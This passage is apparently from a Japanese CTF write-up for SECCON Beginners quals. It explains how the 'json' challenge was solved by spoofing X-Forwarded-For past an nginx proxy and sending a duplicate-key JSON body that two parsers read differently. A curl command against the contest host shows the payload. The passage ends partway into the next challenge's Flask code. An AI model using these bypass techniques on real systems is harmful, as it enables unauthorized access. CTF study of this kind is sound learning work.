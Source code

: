 
<p>この問題は２つ関門があります。<br>
1つ目はbff/main.goの<code>checkLocal()</code>の突破です。nginxの設定ファイルを見てみます。</p>

<pre class="code" data-lang="" data-unlink> server {
    listen       80;
    listen  [::]:80;
    server_name  localhost;

    location / {
        proxy_pass   http://bff:8080;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
    }

    error_page   500 502 503 504  /50x.html;
    location = /50x.html {
        root   /usr/share/nginx/html;
    }

} </pre>


<p><a href="https://nginx.org/en/docs/http/ngx_http_proxy_module.html#var_proxy_add_x_forwarded_for">$proxy_add_x_forwarded_for</a>をそのまま渡してるのでX-Forwarded-Forの改ざんは容易です。リク<a class="keyword" href="http://d.hatena.ne.jp/keyword/%A5%A8%A5%B9">エス</a>トヘッダでX-Forwarded-ForをいじればOK。</p>

<p>2つ目はbffでの<a class="keyword" href="http://d.hatena.ne.jp/keyword/json">json</a>チェックの回避です。
<code>{ "id": 2 }</code>を<a class="keyword" href="http://d.hatena.ne.jp/keyword/api">api</a>サーバーに送信したいのですが、bffのチェックに弾かれてしまいます。
bffと<a class="keyword" href="http://d.hatena.ne.jp/keyword/api">api</a>の<a class="keyword" href="http://d.hatena.ne.jp/keyword/json">json</a>のパースの仕方が違うことに着目して、試しに<code>{"id": 2, "id": 0}</code>を渡したらbffのinfo構造体には0が<a class="keyword" href="http://d.hatena.ne.jp/keyword/%A5%DE%A5%C3%A5%D4%A5%F3%A5%B0">マッピング</a>されて、<a class="keyword" href="http://d.hatena.ne.jp/keyword/api">api</a>の<code>jsonparser.GetInt(body, "id")</code>では2を渡せたのでこれで解けました。</p>

<pre class="code" data-lang="" data-unlink> curl -k  'https://json.quals.beginners.seccon.jp/' \
    -X POST \
  -H 'X-Forwarded-For:192.168.111.0' \
  -d '{"id": 2, "id": 0}' </pre>


<h4 id="cant_use_db">cant_use_db</h4>

<p>DBではなく<a class="keyword" href="http://d.hatena.ne.jp/keyword/%A5%D5%A5%A1%A5%A4%A5%EB%A5%B7%A5%B9%A5%C6%A5%E0">ファイルシステム</a>に直接writeして情報を永続化してるアプリ。</p>

<pre class="code lang-python" data-lang="python" data-unlink> import os
import re
import time
import random
import shutil
import secrets
import datetime
from flask import Flask, render_template, session, redirect

app = Flask(__name__)
app.secret_key = secrets.token_bytes(256)
